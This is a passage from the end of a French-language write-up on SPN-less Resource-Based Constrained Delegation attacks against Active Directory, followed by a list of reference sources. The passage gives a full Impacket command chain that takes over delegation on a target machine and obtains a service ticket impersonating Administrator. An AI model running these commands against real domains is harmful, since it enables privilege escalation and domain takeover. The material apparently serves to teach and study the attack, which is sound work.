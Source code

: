 ### 3.2 Pour l'exploitation de RBCD SPN-less

```bash
# Récupération d'un TGT de l'utilisateur
getTGT.py -hashes :$(pypykatz crypto nt '<MDP_COMPTE_ATTAQUANT_SANS_SPN>') '<DOMAINE>'/'<COMPTE_ATTAQUANT_SANS_SPN>'

# Récupération de la clé TGT de l'utilisateur
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

# Changement du hash NTLM du compte contrôlé par l'attaquant avec la clé de session du TGT
smbpasswd.py -newhashes :TGTSessionKey 'domain'/'COMPTE_ATTAQUANT_SANS_SPN':'<MDP_COMPTE_ATTAQUANT_SANS_SPN>'@'DC'

# Ajout du SID du compte attaquant dans msDs-AllowedToActOnBehalfOfOtherIdentity (liste) de la ressource cible 
# Ici, "USER" est l'utilisateur disposant d'une ACL permettant d'éditer l'attribut msDs-AllowedToActOnBehalfOfOtherIdentity de la ressource ciblée
impacket-rbcd -delegate-from '<COMPTE_ATTAQUANT_SANS_SPN>' -delegate-to "<NOM_MACHINE_CIBLE>$" -dc-ip <IP_DC> -action 'write' <DOMAINE>/<USER>:<MDP>

# Récupération d'un ticket de service en tant qu'administrator (S4U2Self + U2U) puis récupération d'un TGS pour le service ciblé (S4U2Self)
export KRB5CCNAME='TGT.ccache'
getST.py -u2u -impersonate "Administrator" -spn "host/<SERVICE_CIBLE>" -k -no-pass 'DOMAINE'/'COMPTE_ATTAQUANT_SANS_SPN'
```



## 4. Les sources

Merci à tout les articles suivants m'ayant permis de comprendre le fonctionnement de l'attaque.

- [RFC sur U2U](https://datatracker.ietf.org/doc/html/draft-swift-win2k-krb-user2user-01)
- [RFC Kerberos](https://datatracker.ietf.org/doc/html/rfc1510#section-3.3.3)
- [Article du blog hackndo sur RBCD](https://beta.hackndo.com/resource-based-constrained-delegation-attack/)
- [Article du blog thehacker.recipes sur le RBCD en SPN-less](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd)
- [Article expliquant le RBCD en SPN-less](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
- [Article sur la protection des utilisateurs et groupes](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts)
- [Article sur les délégations Kerberos](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [Article expliquant U2U](https://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)
- [Article décrivant les requêtes Kerberos](https://beta.hackndo.com/kerberos/)
- [Article sur les délégations](https://luemmelsec.github.io/S4fuckMe2selfAndUAndU2proxy-A-low-dive-into-Kerberos-delegations/)
